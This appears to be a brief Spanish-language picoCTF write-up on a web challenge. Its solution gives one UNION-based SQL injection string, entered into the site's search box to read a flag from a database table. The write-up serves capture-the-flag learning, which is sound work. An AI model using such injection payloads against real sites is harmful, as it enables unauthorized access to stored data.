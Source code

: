 ## Objetivo
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:62620/).
## Solución
![[Pasted image 20241014185342.png]]

Una vez dentro ponemos esto en el buscador
Algiers' union select flag,id,1 from more_table;--

![[Pasted image 20241014190313.png]]


## Notas Adicionales

## Referencias

